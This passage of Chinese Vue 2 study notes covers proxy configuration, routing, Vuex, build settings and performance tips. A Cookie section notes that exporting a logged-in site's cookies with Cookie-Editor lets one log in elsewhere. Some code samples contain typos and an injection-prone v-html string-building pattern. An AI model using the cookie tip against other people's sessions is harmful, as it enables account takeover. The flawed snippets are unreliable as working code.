       // 请求前缀默认是请求路径的一部分，且是最开始的部分
       // pathRewrite:{'^/api':''},正则,路径重写，将以api开头的部分置为空,消除请求前缀对路径的影响
       // target 请求的url
        '/api': {
          target:"http://127.0.0.1",
          pathRewrite:{'^/api':''},
          // ws:true,  用于支持websocket
          ws: true,
          //  changeOrigin: true 控制请求头中的 host值
          // true 表示隐藏自己的请求来源，避免请求拦截
          // false 表示实话实说,会告诉请求的服务器自己的地址
          changeOrigin: true
        },
          '/wzt': {
          //配置多个代理，直接追加配置项即可
          target:"http://127.0.0.2",
          pathRewrite:{'^/wzt':''},
          ws: true,
          changeOrigin: true
        }
      }
    }
  }
  ```




### 动态组件

- 属性

  - is：决定那个组件被渲染，string | ComponentDefinition | ComponentConstructor

- ```vue
  <!-- 动态组件由 vm 实例的 `componentId` property 控制 -->
  <component :is="componentId"></component>
  
  <!-- 也能够渲染 注册过的组件 或 prop传入的组件 -->
  <component :is="$options.components.child"></component>
  
  <!-- 
  切换组件时会重新创建  希望它能被缓存下来,可用 <keep-alive> 将其动态组件包裹
  注意： <keep-alive> 要求被切换到的组件都有自己的名字，不论是通过组件的 name 选项还是局部/全局注册。
   -->
  <keep-alive>
    <component v-bind:is="currentTabComponent"></component>
  </keep-alive>
  ```

  

### 异步组件

> - 将应用分割成小一些的代码块，并且只在需要的时候才从服务器加载；
> - 异步解析你的组件定义，且会把结果缓存起来供未来重渲染

- 经常在路由引用时使用  ，必须使用 Vue Router 2.4.0+
- `components: {    'my-component': () => import('./my-async-component')  }`
- 
- 


### Vue-router 3

实质就是vue的一个插件库，实现页面不刷新的切换，即单页面应用（SPA应用）

- SPA：单页web应用
  - 整个应用只有**一个完整的页面**
  - 点击页面中的导航链接**不会刷新页面**，只进行页面的**局部刷新**
- 什么是路由？
  - 一个路由就是一组映射关系（key---value）
  - key为路径，value可能是function或component(组件)
  - 路由的分类
    - 后端的路由：
      - value是function，用于处理客户端提交的请求
      - 工作过程：服务器接收到一个请求时, 根据请求路径找到匹配的函数来处理请求, 返回响应数据。
    - 前端路由：
      - value 是 component，用于展示页面内容
      - 工作过程：当浏览器的路径改变时, 对应的组件就会显示


#### 路由配置

- 下载对应的插件库 ` npm i vue-router@3`
  - vue-router 默认版本为4，且4版本只能在vue3中使用
  - vue-router 3 才能在vue2中使用
  - 如果将vue-router 4安装在vue2中会报错！！！
- main.js文件的修改

```js
// 在main.js中引入路由插件 
import VueRouter from 'vue-router'
// 引入路由的配置
import routers from './router/index.js'
// 使用vue插件库 
Vue.use(VueRouter);

new Vue({
   el:'#app',
   render:h => h(App),
   // 创建vm时，传入路由配置暴露的路由routers
   router:routers
})
```

- **创建pages文件夹**，用于存放路由组件；components文件夹，用于存放一般组件
- 与components文件夹平级，创建 router文件夹，再创建index.js进行路由配置

```js
// index.js专门用于常见整个应用的路由器
// 引入VueRouter路由插件  再引入所有使用到的组件
import VueRoter from 'vue-router'
import About from '../pages/About'
import Home from '../pages/Home'
import HomeOne from '../pages/HomeOne'

// 创建并暴露 一个路由器routers
export default new VueRouter({
   routes:[
      // 一级路由 path：路由的路径   component:路由的组件名
      {
         name:'about',
         path:'/about',
         // meta 自定义路由信息，在路由跳转时可以获取使用
         meta:{   
            // 设置页面标题 （配合路由守卫document.title = to.meta.title）
            title:'关于我们',
         },
         // component:About,
         component:()=>import('../pages/About.vue');
      },
      {
         path:"/home",
         component:Home,
         // 二级路由
         children:[
            {
               path:"homeOne",
               component:HomeOne,
            }
         ]
      }
   ]
}) 
```


#### 基础路由

- 使用`<router-link>`标签替代a标签，实现跳转且不刷新页面，页面显示时仍为a标签。

```html
<!-- 
路由链接 配置属性：
  to：设置跳转的路由，值为配置中的path路径
  active-class：当元素被点击时，追加指定的样式，点击其他内容时再自动取消这个样式
-->
<router-link  class="样式名" to="/about" active-class="触发时的样式名">about</router-link>
<router-link  class="样式名" to="/home" active-class="触发时的样式名">home</router-link>


<!-- 指定路由 显示的位置，使用 <router-view>标签占位 -->
<router-view></router-view>
```


#### 嵌套路由

------

#### 编程式路由导航

- 不借助`<router-link>`标签，实现路由跳转，让路由跳转更加灵活
- 关于 `$router`
  - 每个路由组件vc上都会多一个`$router`和一个`$route`
  - 整个应用只有一个`router`，可以通过`$router`获取到
  - 每个组件都有自己的`$route`，里面存储着自己的路由信息
- 路由传参
  -  query传参要用path来引入，params传参要用name来引入
     - 使用params传参只能使用name进行引入
     - params是路由的一部分,必须要在路由后面添加参数名。query是拼接在url后面的参数，没有也没关系
     - params一旦设置在路由，params就是路由的一部分，如果这个路由有params传参，但是在跳转的时候没有传这个参数，会导致跳转失败或者页面会没有内容。
     - uery传递参数（直接拼接在地址后面，会显示在url后面）
     - 使用params传参只能用name来引入路由，即push里面只能是name:’xxxx’,不能是path:’/xxx’,因为params只能用name来引入路由，如果写成了path，接收参数页面会是undefined！！！
     - query相当于get请求，页面跳转的时候，可以在地址栏看到请求参数，而params相当于post请求，参数不会再地址栏中显示
- 具体编码

```js
// $router 的API
// push 追加操作浏览记录
this.$router.push({
   // name 指定跳转的路由名
   name:"xiangqian",
   //path:xxx
   // params 携带参数
   // 使用参数数据：在跳转的组件中 使用this.$route获取，可以log查看一下
   params:{
      id:xxx,
      title:xxx
   }
})

// replace 替换原有历史记录，不保留上一层
this.$router.replace({
   name:"xaingqian",
   params:{
      id:xxx,
      title:xxx
   }
})

// 前进1次
this.$router.forward()
//后退1次
this.$router.back()
//前进或后退指定次数，参数为数字，可以为负数
this.$router.go()   
```


#### 路由守卫

- 细节：
  - 路由守卫可以检测 · 浏览器自带的前进回退按钮，进行拦截操作

##### 全局路由守卫

> 在router.js中，对路由实例化对象 router绑定守卫规则。在main.js中使用守卫是全局守卫。

- 前置路由守卫
  - 每次切换之前被调用，可以做权限拦截
  - **to**：进入到哪个路由去
    **from**：从哪个路由离开
    **next**：函数，决定是否展示你要看到的路由页面。
- 后置路由守卫(不常用)
  - 每次切换之后调用, 可用于切换document.title
  - 只有两个参数，to：进入到哪个路由去，from：从哪个路由离

```js
import VueRouter from "vue-router";
...   // 引入使用的路由组件
// 配置路由规则
const routers = new VueRouter({
    mode: 'hash',
    routes: [{
        path: "/",
        name: 'Login',
        component: Login,
    }]
})

//配置路由守卫
routers.beforeEach((to,from,next)=>{
  if(to.path == '/login' || to.path == '/register'){
    next();     // 允许此次路由跳转
  }else{
    alert('您还没有登录，请先登录');
    next('/login');     // 指定跳到路由
  }})

// 每次切换路由时，都会弹出alert，点击确定后，展示当前页面
router.afterEach((to,from)=>{ alert("after each") })

export default routers
```


##### 组件内路由守卫

> 写在组件中，与生命周期钩子平级，进行配置，next() 与上面有差异

```js
// 到达当前组件时
beforeRouteEnter:(to,from,next)=>{}

// 离开当前组件时
//  确认执行next()   取消执行next(false)，留在当前页面
beforeRouteLeave:(to,from,next)=>{
   if(confirm('确定离开当前页面吗？')===true){
      next();
   }else{
      next(false);
   }
}
```


##### 独享路由守卫

```js
import VueRouter from 'vue-router'
import Island from '../pages/Island'
import Polaris from '../pages/Polaris'

export default new VueRouter({
    routes: [
        {
            component: Island,
            path: "/Island",
            props: ($routes) => ({
                id: $routes.query.id,
                title: $routes.query.title
            })
        },
        {
            component: Polaris,
            path: "/Polaris",
            // 组件独享路由守卫，只针对当前路由，只有前置没有后置
            beforeEnter:(to,from,next)=>{
                next()                
            }
        },
    ]
})
```


#### 重定向

- 将当前路径解析为其他路径，改变url
- redirect 配置项

```js
const router = new VueRouter({
  mode: 'history',
  base: __dirname,
  routes: [
    { path: '/', component: Home,
      children: [
        { path: '', component: Default },
        { path: 'foo', component: Foo },
        { path: 'bar', component: Bar },
        { path: 'baz', name: 'baz', component: Baz },
        { path: 'with-params/:id', component: WithParams },
        // relative redirect to a sibling route
        { path: 'relative-redirect', redirect: 'foo' }
      ]
    },
    // absolute redirect
    { path: '/absolute-redirect', redirect: '/bar' },
    // dynamic redirect, note that the target route `to` is available for the redirect function
    { path: '/dynamic-redirect/:id?',
      redirect: to => {
        const { hash, params, query } = to
        if (query.to === 'foo') {
          return { path: '/foo', query: null }
        }
        if (hash === '#baz') {
          return { name: 'baz', hash: '' }
        }
        if (params.id) {
          return '/with-params/:id'
        } else {
          return '/bar'
        }
      }
    },
    // named redirect
    { path: '/named-redirect', redirect: { name: 'baz' }},

    // redirect with params
    { path: '/redirect-with-params/:id', redirect: '/with-params/:id' },

    // redirect with caseSensitive
    { path: '/foobar', component: Foobar, caseSensitive: true },

    // redirect with pathToRegexpOptions
    { path: '/FooBar', component: FooBar, pathToRegexpOptions: { sensitive: true }},

    // catch all redirect
    { path: '*', redirect: '/' }
  ]
})
```


#### 动态追加路由


#### 注意点：

- 默认被切换走的组件被直接销毁，而不是普通的隐藏，需要的时候再进行挂载

- ```js
  import VueRouter from "vue-router"
  import Vue from 'vue'
  // 重复点击路由出现的bug
  const originalPush = VueRouter.prototype.push;
  VueRouter.prototype.push = function(location) {
      return originalPush.call(this, location).catch(err => {
          console.log(err);
      })
  };
  ```

  


### VueX

> 专门在Vue中实现集中式状态(数据)管理的Vue插件，属于组件间通信的一种，适用于任意组件。
>
> state 集中式静态数据      getters 集中式计算属性      actions 集中式逻辑

- 什么时候使用VueX

  - 多个组件依赖同一状态
  - 来自不同组件的行为需要同一状态

- 使用习惯：

  - actions中的方法名采用小写，mutions中的方法名采用大写，易于调用时区分
  - 将业务逻辑写在 store中的 actions配置中，便于业务逻辑代码的复用（发ajax请求\操作数据...）
  - 对于不需要执行其他业务逻辑的数据，可以直接在组件中调用 commit方法，跳过dispatch方法
    - `this.$store.commit('mutations中配置的方法',data)`

- 搭建VueX环境

  - ```js
    //1. npm i vuex@3   Vue2中安装VueX3
    //1. npm i vuex     Vue3中安装VueX
    
    // 2.在src文件夹下，新建store文件夹，再建index.js,写入以下内容
    import Vue from "vue"
    // 引入VueX
    import Vuex from "vuex"
    // 使用 Vuex插件
    Vue.use(Vuex);
    // 准备actions  用于相应组件的动作
    const actions = {}
    // 准备mutations 用于操作数据 state
    const mutations = {}
    // 准备state 用于存储数据
    const state = {}
    // 准备getters 类似于组件的computed计算属性，使用return返回值
    const getters = {
       bigsum(stare){
          return stare.sum*10
       }
       ...
    }
    // 创建并暴露store
    export default new Vuex.Store({
       actions,
       mutations,
       state,
       getters
    })
    
    // 3.在main.js入口文件中引入并传入store
    import store from "./store/index.js"
    
    new Vue({
       store,   //传入store内容
    })
    ```

  ```js
  // 在store文件夹下 
  // 各种分类的配置文件  xxx.js  采用同一暴露
  export default={
     actions:{},
     mutations:{},
     ...
  }
  
  // index.js 中 引入各种Vuex配置文件
  import 命名 from './xxx.js';
  .....;
  export default new Vuex.store({
     modules:{
        自定义使用命名:配置文件引入时的命名,
        自定义使用命名:配置文件引入时的命名,
        ...
     }
  })
  ```

  ```js
  // 对 store中的配置进行分类
  const counOptions = {
     namespaced:true,  // 开启命名空间，默认为false时不能在组件中通过名称找到该配置
     actions:{},
     mutations:{},
     state:{},
     getters:{}
  }
  // 同上的其他配置 ....
  
  // 创建并暴漏 store中的各种配置
  export default new Vuex.store({
     modules:{
        counAbout:counOptions,
        ......
     }
  }) 
     
  
  // 在组件中按需配置使用数据,对应配置必须开启命名空间 namespaced:true;
  computed:{
     sum(){
        return this.$store.state.暴露的配置名.数据1;
     },
     bigsum(){
        return this.$store.getters['暴露的配置名/数据名','暴露的配置名/数据名'];
     },
     ...mapState:('暴露的配置名1',['数据1','数据2'...]),
     ...mapState:('暴露的配置名2',['数据1','数据2'...]),
     ...mapGetters:('暴露的配置名1',['数据1','数据2'...])
  }
  
  // 操作数据时，调 commit dispatch
  this.$store.dispatch('暴露的配置名/方法名',数据);
  ```

- **简写优化**

  ```js
  // 存在的问题：使用数据/修改数据 时需要单独配置 computed/methods比较繁琐
  // 借助 Vuex提供的方法进行简化
  
  // 第一步：在组件中按需引入  
  import {mapState,mapGetters,mapMutations,mapActions};
  
  // 在组件的对应位置使用它们
  computed:{
     // 传统写法
     自定义数据名(){
        return this.$store.state.暴露的配置名.数据名;
     },
     自定义数据名(){
        return this.$store.getters.暴露的配置名.数据名;
     },
     // 数组写法
     ...mapState(['数据名1','数据名2'...]),
     ...mapGetters(['数据名1','数据名2'...]),
     // 对象写法
     ...mapState({自定义名:'数据名1',自定义名:'数据名2'...}),
     ...mapGetters({自定义名:'数据名1',自定义名:'数据名2'...}),
  }
  methods:{
     // 传统写法
     jia(){
        this.$store.dispatch('jia',传递的数据);
     },
     Jia(){
        this.$store.commit('JIA',传递的数据);
     },
     // 数组写法
     ...mapActions(['jia','jian']),
     ...mapMutations(['JIA','JIAN']),
     // 对象写法
     ...mapActions({jia:'jia',jian:'jian'}),
     ...mapMutations({Jia:'JIA',Jian:'JIAN'})
  }
  // 使用时可直接用 this.jia(传递的数据);    this.JIA(传递的数据)
  ```




## 其他技巧

### 杂项

- vue文件路径中 @ 表示src目录    例：@/store/index.js
- 手动强制视图刷新
  - `this.$forceUpdate();`
  - 解决当使用v-for 循环产生页面后，修改数据后界面不刷新的问题
- 访问根实例 vm（$root 属性    **只读**）
  - 在任意组件中，使用this.$root 可直接访问到根式例wm上的内容（data、methods、computed）
  - 可以用来实现任意组件间通讯
- 访问父组件实例（$parent   **只读**）
  - 在子组件用this.$parent 中访问父组件中的实例，可"替代" props 父子间传递数据

- 访问子组件实例（$）


### Vuex表单处理

- 在表单输入时，如果 v-model绑定vuex中的数据，试图修改时报错！

  - ```js
    // 单独配置计算属性，设置get和set
    computed:{
       data1:{
          get(){
             return this.$store.state.data1;
          },
          set(value){
             this.$store.commit('updata1',value);
          }
       }
    }
    ```

    

### 会话跟踪

- 传统项目：采用服务器端Session实现，保存在前端cookie中

  - ```js
    // 前端配置，让前端每次请求都带上用于跟踪用户会话的 Cookie报头
    axios.defaults.withCredentials=true;
    
    // 服务器端可通过拦截器的方式统一设置响应报头
    // 服务器端配置  前者不能使用 * 号
    res.setHeader('Access-Control-Allow-Origin','前端部署的服务器或域名IP');
    res.setHeader('Access-Control-Allow-Credentials','true');
    ```

- 使用自定义token

  - 后端生成唯一的token，必要时通过公私钥进行加密，通过响应报头发给前端
  - 前端使用axios拦截器，进行token的统一处理，每次都携带token；使用Vuex 进行token进行动态管理

### 构建发布版本

- 在开发完成后，因调试使用的alert() 或 console.log()  语句，在打包后需要删除

- 在VueCLI 3.x 打包发布版本时，使用`terser-webpack-plugin`插件进行优化

- ```js
  // 在node_modules\@vue\cli-service\lib\config\terserOptions.js下 添加如下配置
  module.exports = options => ({
    terserOptions: {
      compress: {
         ......
        warnings:false,
        drop_console:true,
        drop_debugger:true,
        pure_funcs:['console.log','alert'],
      },
       ....
    },
     ....
  })
  ```

- 代码打包构建后，产生的文件下存在一些 .map文件

  - map文件在开发过程中用于在控制台做代码提示等，在生产环境下没有实际用途

  - ```js
    // 在打包时剔除 map文件     在项目的 vue.config.js文件下
    module.exports={
       ...,
       productionSourceMap:process.env.NODE_ENV === 'production' ? false :true,
    }
    ```

    


136-103

- 自定义一堆全局组件
- 数据让用户自己传，交出接口参数 

- 自定义常用插件，增强Vue，提高开发效率
- 前提：足够多的编码经验


## 性能优化---------


### 内置指令的使用

- v-if 和 v-show
  - 需要频繁进行切换的使用 v-show ，相当于display:none，不会导致DOM重构
  - v-show无论什么情况都会进行渲染
  - 只在页面加载时确定是否要加载，且后期不常切换时，使用v-if，操作DOM结构
  - v-if是真正的条件渲染，是惰性的，可以节省开销
- 列表渲染
  - v-for中使用合适的key值，尽可能避免使用索引值，减少页面重构
- 跳过编译过程 v-pre 
- 只进行一次DOM渲染，v-once  
  - 因为不便于维护且效果不明显而不常用


### 使用冻结对象

> 部分数据可能并不需要使用到响应式，只在第一次可能发生变动，可以使用冻结对象解除响应式，从而提升效率。`this.xxx = Object.freeze(datas)`


### 生命周期钩子

- 在created 中发起ajax请求，此时刚好可以拿到data中的数据
- 在beforeDestroy 中清除定时器、解绑自定义事件、取消订阅消息等


### 虚拟DOM与Diff算法

- Vue中**就地更新策略**
  - 思想：在数据发生改变时，将需要更新的这一部分视图进行更新，不会更新所有的视图
  - 原理：根据dom上的唯一标识进行判断是否需要更新，例：v-for的key值
  - key值：是Vue为便于跟踪每个节点的身份，从而实现"就地更新策略"，为每一项提供唯一key
    - 对DOM进行复用和重排，实现更高效的DOM更新
  - 两个假设前提条件：
    - 同一层级的节点，可以通过唯一id进行区分
      - 相同的组件产生相同的DOM结构，不同的组件产生不同的DOM


### keep-alive（路由缓存）

1. **将内部本来要被销毁的组件的实例对象缓存起来，保留组件状态、避免重新渲染**
2. **被keep-alive缓存的组件生死将不由己,会失去初始化阶段和卸载阶段的生命周期,会被替换成activated(激活)和deactivated(失活)生命周期**
3. **标签属性**
   1. **include标签属性** `字符串或正则表达式`
      1. **根据组件名称,可以针对某几个组件进行缓存**
      1. 注意：不是router配置中的name，而是组件的命名
   2. **exclude标签属性** `字符串或正则表达式`
      1. **根据组件名称,可以针对某几个组件不进行缓存**
   3. **max标签属性** `数字`
      1. **可以控制最多缓存多少个组件实例对象,因为实例对象也需要占用内存空间,所以需要考虑缓存多少个**
      2. **如果达到max上限时,在新实例被创建之前,已缓存组件中最久没有被访问的实例会被销毁掉**


### 组件按需引入

- `component:()=>import('../pages/About.vue');`


### Vue Lazy Component

> Vue.js 2.x 组件级懒加载方案


## 其他概念


### Vue官网

- 教程（学习的路）
- API（学习的路）
- 风格指南（学完后 再进行代码规范化）
- 实例
- Cookbook （vue使用技巧）
- 工具（Vue CLI 脚手架）
- 核心插件（Vue Router 路由）
- 主题
- Awesome Vue（官方推荐的组件库）


### 插件/库

- 引用第三方库，做一些事情
- 比较有名的库：
  - `moment.js`：是一个js日期处理类库，用于解析、检验、操作、以及显示日期
  - `day.js`：是一个轻量级的处理时间和日期的js库，和moment.js的API设计一致
  - `axios`：
- 使用方法：
  - 使用加速的CDN服务网站，找寻需要的库文件
  - 引入js文件链接  或  直接下载js文件
  - 去相应的github仓库查看使用文档





- 插件库在使用时，先下载，在使用import引入，最后使用Vue.use(插件名) 使用插件

1. uuid标准

   - 作用：制定了规则，生成全球唯一的字符串
   - 使用了地理位置、MAC地址、。。。。。混合生成
   - 缺点：文件较大，生成的字符串过长

2. <span style ="color:red">nanoid</span>

   - 作用：是uuid的精简版，
   - 安装：在项目目录下<span style ="color:red">`npm i nanoid`</span>
   - 使用说明：
     - 采用分别暴露的方式引入
     - `import {nanoid} from 'nanoid'`
     - 直接调用`nanoid()`,就会返回一随机数

3. vue-resource 插件

   - 对ajax封装的vue插件库，了解即可

4. pubsub.js

5. reset-css

   - 样式清除工具，去除一些不好的默认的样式，例如：`*{margin:0;  padding:0}`
   - 下载`npm install reset-css`
   - main.js中引入`import 'reset-css'`

6. [Animate.css ](https://animate.style/)

   - ```shell
     # 安装animate库
     npm install animate.css --save
     # 在组件中引入样式库
     import "animate.css"
     # 在transition中配置 name="animate__animated animate__bounce"
     # 挑选动画放在合适的位置
     <transition 
         name="animate__animated animate__bounce"
         enter-active-class="动画名"
         leave-active-class="动画名"
     appear >
     ```

   - 挑选动画后，直接复制动画名，设置为vue的进入/离开的动画名

     

   


### Cookie

- 所在位置: 开发者工具--应用程序--存储--Cookie

- 获取登录成功的网页的Cookie,手动将其获取后,就可以在任意浏览器登录该网站

- 借助插件批量获取---插件名:`Cookie-Editor`

  


#### js拿取Cookie

- `document.cookie`,会返回当前网站的cookie的对象字符串
- 设计时的安全性校验：当`HttpOnly`选项被勾选时，只有http协议可以读取和携带
- 被HttpOnly保护的cookie值不会被`document.cookie`获取






# 

- <span style='color:hotpink'>数据劫持：</span>当数据修改时，被set()劫持后进行修改和解析模板，数据劫持和数据代理都离不开`Object.defineproperty`
- debugger   在代码中写入该指令，会在运行到此处是，停止解析


### 其他需要补充的知识点


- event对象
  - `e.target`返回触发此事件的元素（事件的目标节点）
  - `e.keyCode`（不推荐，已被标准废弃）返回onkeypress事件触发的键的值的字符代码，或者 onkeydown 或 onkeyup 事件的键的代码
  - `e.key`在按下按键时返回按键的标识符。


###  表单标签及相关操作

- submit：表单提交就触发表单的submit事件
- 默认的button按钮作用
- input各个属性的含义
- form的属性
- 使用vue的事件修饰符可以阻止默认的跳转事件


### instanof是什么？




## ---使用记录---


### ToDolis案例

- 数据在哪里，操作数据的方法就在那里
- 所有的方法命名时注意不要用关键字或保留字，否则报错！  (可以适当长一些，多个词)
- prop传给孩子的数据，如果孩子用data使用，相当于给孩子复制一份，不会再受父级数据的改变


#### 性能优化

- `:key`的合理使用，减少vue内核再次渲染的压力，模板复用


### key值的设置

**便捷，但不太靠谱的方法** 

1. 使用索引值，极不推荐  
2. 使用随机数，可能偶发冲突  `Math.random()`
3. 使用当前的时间戳，存在不和理性  `Date.now()`

**推荐方法**

1. uuid标准
   - 作用：制定了规则，生成全球唯一的字符串
   - 使用了地理位置、MAC地址、。。。。。混合生成
   - 缺点：文件较大，生成的字符串过长
2. <span style ="color:red">nanoid</span>
   - 作用：是uuid的精简版，
   - 安装：在项目目录下<span style ="color:red">`npm i nanoid`</span>
   - 使用说明：
     - 采用分别暴露的方式引入
     - `import {nanoid} from 'nanoid'`
     - 直接调用`nanoid()`,就会返回一随机数


### 组件内传参数

- 为绑定事件传递参数，直接在标签的事件名后添加`（参数）`即可
- 参数可以是任何一个能通过模板语法获得的表达式/值

```html
<!-- 为绑定的点击事件传递参数 -->
<input type="checkbox" :checked="todo.checkeds" @click="shanchu(todo.id)"></input>
```


### 父子组件传值

#### 传数据(父-子)

- 把数据放在父组件中
- 使用propos配置项，共享数据给子组件
- 子组件不能修改props配置项接收到的数据，请看下一跳
- 父组件中的数据使用数组，子组件就可以通过数组的索引值更改父组件中的数据

#### 传方法(子-父)

- 传递方法让子组件调用，让子组件使用父组件的方法
- 可以将子组件的数据返回到父组件中使用

```vue
methods:{
   receive(x){
        console.log(x);
   }
}
```


### 数据的展示

- 使用`v-for`遍历已有的数据

- 配合插值语法或vue指令展示内容

- 在标签中传值时，一定记得加： 表示传递的是表达式，而不是字符串

- 使用V-html配合字符串拼接，实现js动态创建页面结构

  ```vue
  <template>
     <div class="navBox" v-html="navEle"></div>
  </template>
  <script>
  export default {
    name: 'App',
    data(){
      return {
        navEle:"",
        navList:[
        { id:1,name:"总览",parentid:null },
